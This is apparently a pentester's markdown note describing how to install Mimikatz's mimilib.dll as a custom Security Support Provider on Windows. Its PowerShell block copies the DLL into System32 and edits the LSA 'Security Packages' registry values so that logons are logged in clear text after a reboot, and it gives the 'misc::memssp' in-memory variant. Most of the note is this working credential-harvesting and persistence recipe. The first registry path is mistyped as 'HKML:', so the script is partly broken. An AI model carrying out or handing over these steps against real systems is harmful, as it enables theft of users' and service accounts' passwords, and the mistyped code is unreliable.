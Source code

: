 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz #powershell 
- Injecting our own SSP for programs to use.
- Mimikatz has it's own `mimilib.dll` SSP. This SSP logs local logons, service account and machine account password in clear text on the target server.
- `mimilib.dll` should be present in the system32 directory on the target system, and add mimilib to the `HKLM\SYSTEM\CurrentControlSet\Control\LSA\Security Packages`
```powershell
# move mimilib to system32
Move-Item mimilib.dll C:\Windows\System32

# Get Current value of "Security Packages"
$packages = Get-ItemProperty "HKML:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' | select -ExpandProperty 'Security Packages';

# append mimilib to packages variable
$packages += "mimilib"

# Reset the registry key
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages' -Value $packages
# Reboot
# After reboot all logons are logged to C:\Windows\System32\[kiwissp.log|mimilsa.log]

# Mimikatz can be used to load mimilib in lsass
misc::memssp
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
